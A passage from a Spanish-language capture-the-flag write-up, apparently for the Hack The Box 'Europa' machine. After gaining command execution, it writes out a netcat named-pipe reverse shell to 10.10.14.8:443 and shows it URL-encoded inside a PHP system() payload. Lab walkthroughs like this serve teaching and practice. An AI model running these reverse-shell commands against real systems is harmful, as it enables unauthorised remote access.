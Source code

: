 ![](/assets/images/htb-europa/europa_rce.png)

Vemos que tenemos ejecución de comando a nivel de sistema, ahora tenemos que entablarnos una reverse shell para ganar acceso al sistema. Ocupamos nuestro sitio de confianza [pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet); pero hay que recordar que debemos url  encodear el comando que para este caso se utilizó:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f
```

Por lo que al url encodearlo quedaría de la siguiente manera:

```bash
system('rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.8+443+>/tmp/f')
```
